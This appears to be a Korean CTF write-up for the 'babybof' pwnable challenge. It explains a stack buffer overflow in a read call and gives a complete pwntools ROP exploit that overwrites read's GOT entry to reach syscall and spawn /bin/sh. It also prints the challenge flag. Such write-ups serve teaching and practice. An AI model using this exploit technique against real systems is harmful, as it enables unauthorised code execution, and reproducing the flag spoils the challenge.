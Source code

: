 # babybof

## 문제설명

ctf.skhudebug.xyz 30001

## 요약

- category : pwnable

- 의도 : read함수만 사용 가능한 상황에서 ROP exploit

## Flag

`debugCTF{Y0U_ARE_MAST3R_0F_R0P}`



## 문제실행방법

``docker-compose up -d --build``



## Mitigation

```
Arch:     amd64-64-little
RELRO:    Partial RELRO
Stack:    No canary found
NX:       NX enabled
PIE:      No PIE (0x400000)
```

## Sources

- [babybof](./deploy/babybof): 바이너리
- [babybof.c](./deploy/babybof.c)

## Exploit

#### phase 1 : 취약점 분석

```c
int __cdecl main(int argc, const char **argv, const char **envp)
{
  char buf; // [rsp+0h] [rbp-D0h]

  initialize(argc, argv, envp);
  read(0, &buf, 0x1F4uLL);
  return 0;
}
```

read함수에서 buf 변수의 크기보다 많은 사이즈의 데이터를 입력받는다.

`overflow` 가 발생하는 것을 알 수 있다.

ROP를 진행하기 위해 사용가능한 함수를 확인한다.



- 사용가능한 함수

```assembly
pwndbg> info func
All defined functions:

Non-debugging symbols:
0x0000000000400520  _init
0x0000000000400550  alarm@plt
0x0000000000400560  read@plt
0x0000000000400570  __libc_start_main@plt
0x0000000000400580  signal@plt
0x0000000000400590  setvbuf@plt
0x00000000004005a0  exit@plt
0x00000000004005c0  _start
0x00000000004005f0  deregister_tm_clones
0x0000000000400630  register_tm_clones
0x0000000000400670  __do_global_dtors_aux
0x0000000000400690  frame_dummy
0x00000000004006b6  _a
0x00000000004006c7  _b
0x00000000004006d0  alarm_handler
0x00000000004006de  initialize
0x000000000040073a  main
0x0000000000400770  __libc_csu_init
0x00000000004007e0  __libc_csu_fini
0x00000000004007e4  _fini
```

 `read`함수와 같이 `ROP` 가젯으로 사용하기 위한 출력함수(`write`)가 없다. 

따라서 syscall을 호출해서 문제를 풀어야 한다.



#### Phase 2 : ROP gadget

```assembly
public _a
_a proc near
; __unwind {
push    rbp
mov     rbp, rsp
xor     rax, rax
xor     rax, rbx
xor     rdx, rdx
retn
```

```assembly
public _b
_b proc near
; __unwind {
push    rbp
mov     rbp, rsp
pop     rbx
retn
```

_a, _b 함수에 ROP를 위한 가젯이 주어진다.

_a, _b 함수를 이용해 rax에 원하는 값을, rbx를 0으로 만들면서 syscall 호출이 가능해진다.

그 외 pop rdi, pop rsi 가젯도 찾아준다.



#### Pahse 3 : exploit

```python
from pwn import *

p = remote('ctf.skhudebug.xyx', 30001)
elf = ELF('babybof')

bss = elf.bss()+200
read_plt = elf.plt['read']
read_got = elf.got['read']
pop_rdi = 0x400833
pop_rsi_r15 = 0x400831
pop_rbx = 0x40071b
xor_eax_ebx = 0x40070a

payload = "A"*216
payload += p64(pop_rdi)
payload += p64(0)
payload += p64(pop_rsi_r15)
payload += p64(bss)
payload += p64(0)
payload += p64(read_plt)

payload += p64(pop_rdi)
payload += p64(0)
payload += p64(pop_rsi_r15)
payload += p64(read_got)
payload += p64(0)
payload += p64(read_plt)

payload += p64(pop_rbx)
payload += p64(59)

payload += p64(xor_eax_ebx)

payload += p64(pop_rdi)
payload += p64(bss)
payload += p64(pop_rsi_r15)
payload += p64(0)
payload += p64(0)
payload += p64(read_plt)

sleep(1)
p.send(payload)
sleep(1)
p.send('/bin/sh\x00')
sleep(1)
p.send('\x1e')
sleep(1)
p.interactive()
```



주어진 libc 파일로 read함수를 통해 호출되는 syscall의 마지막 1바이트 주소를 찾아내 exploit한다.